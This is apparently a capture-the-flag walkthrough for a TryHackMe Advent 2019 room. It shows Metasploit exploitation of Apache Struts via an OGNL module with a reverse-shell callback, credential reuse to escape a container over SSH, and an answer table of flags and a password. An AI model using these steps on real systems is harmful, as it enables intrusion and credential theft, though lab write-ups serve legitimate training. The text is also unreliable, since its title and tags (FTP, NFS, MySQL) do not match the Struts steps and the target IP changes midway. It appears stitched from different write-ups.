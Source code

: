 # [Day 11] Elf Applications Writeup
### Tags: `#FTP #NFS #MySQL`
#### [Machine Link](https://tryhackme.com/room/25daysofchristmas)

<img src='imgs/advent2019day11.png' width='200' align='center'>

## Walkthrough

1.) Lets ping the machine to see if it is up and running.

```bash
ping 10.10.244.242
```

![](imgs/ping.png)

2.) Lets run a nmap scan on the machine to enumerate all services on open ports.

```bash
nmap -A 10.10.244.242
```

![](imgs/nmap.png)

3.) Lets first take a look at the NFS service running on port 2049. We can enumerate all the shares using the showmount command.

```bash
showmount -e 10.10.244.242
```

![](imgs/showmount.png)

4.) Using google, lets search for apache showcase.action and see if we can find any results for exploits that we can use. The 4th result from www.rapid7.com seems like a good fit because Rapid7 is the developers of Metasploit.

![](imgs/showcase_action.png)

5.) Using the CLI tool searchsploit, which is a local version of the exploitDB maintained by OffSec. We can see the exploits listed for Apache Struts.

![](imgs/searchsploit.png)

6.) Using Metasploit, lets execute the struts2_content_type_ognl exploit.

```bash
msfconsole

search struts2

use 6

show options
```

![](imgs/usemsf.png)

7.) When using Metasploit, we need to set all the required options before trying to execute the exploit on the machine.

```bash
set RHOSTS 10.10.173.247

Set RPORT 80

set TARGETURI /showcase.action

set LHOST 10.13.37.142
```

![](imgs/setoptions.png)

8.) With all the required fields set within Metasploit, we can execute the exploit by running the command run.

![](imgs/run.png)

9.) Now that we have a meterpreter shell, we can drop into a standard shell by running the command shell. What we are trying to do is run a bash command to find any files on the machine that have flag1 within its name.

```bash
shell

find / 2>dev/null | grep -i "flag1"
```

![](imgs/flag1.png)

10.) Lets take a look at the / directory. Do you notice the .dockerenv file. This is a sign that we are currently isolated inside a active containter. Another sign is to run the ps aux command and take note of the number of processes (less processes means most likely a docker container).

![](imgs/docker.png)

11.) Now taking a look at the santa home directory, we see a file named ssh-creds.txt. 

![](imgs/sshcreds.png)

12.) Using the username:password combo found in the ssh-creds.txt file and with a open port 22 (ssh service), we can bypass the docker container and login directly to the machine using the santa user.

![](imgs/sshlogin.png)

13.) Checking the home directory for santa, we see two files naughty_list.txt and nice_list.txt.


```bash
cat -n naughty_list.txt
or
vim naughty_list.txt
:wq

cat -n nice_list.txt
or
vim nice_list.txt
:wq
```

## Tasks
| Task | Question | Answer |
| --- | --- | --- |
| Task #1 | Compromise the web server using Metasploit. What is flag1? | THM{3ad96bb13ec963a5ca4cb99302b37e12} |
| Task #2 | Now you've compromised the web server, get onto the main system. What is Santa's SSH password? | rudolphrednosedreindeer |
| Task #3 | Who is on line 148 of the naughty list? | Melisa Vanhoose |
| Task #4 | Who is on line 52 of the nice list? | Lindsey Gaffney |








